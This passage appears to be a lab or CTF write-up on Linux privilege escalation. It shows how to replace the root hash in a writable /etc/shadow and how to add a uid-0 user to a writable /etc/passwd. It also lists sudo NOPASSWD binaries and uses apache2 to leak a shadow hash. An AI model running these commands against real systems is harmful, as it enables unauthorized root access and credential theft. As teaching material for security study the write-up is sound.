 # Weak File Permissions - Writable /etc/shadow

We can create our own password by `mkpasswd -m sha-512 Shazam12345`.
Now edit the root's hash in /etc/passwd file 

```
root:$6$Ib8H97JH$VuBFTRFG2.gMJw4CVPIQWz8PMEPOjwlyCarbtzfVJa/jOBL2hQtFOagPDWgi7JjueKOsdKmHzcf2DM7OMTZdS/:17298:0:99999:7:::
```

Now we can login using the password `Shazam12345`

# Weak File Permissions - Writable /etc/passwd

Create a password hash `openssl passwd Shazam12345` => `6docRHjcFoMak`

We can either edit `root:x:0:0:root:/root:/bin/bash` the x in here.

Like `root:6docRHjcFoMak:0:0:root:/root:/bin/bash`

						or

we can create a new root user like `newroot:6docRHjcFoMak:0:0:root:/root:/bin/bash`

id

```
uid=0(root) gid=0(root) groups=0(root)
```

# Task 6 - Shell Escape Sequences

run `sudo -l`

```
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2 => doesn't have escape sequence
    (root) NOPASSWD: /bin/more
```

## Abusing apache2

sudo apache2 -f /etc/shadow

```
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```
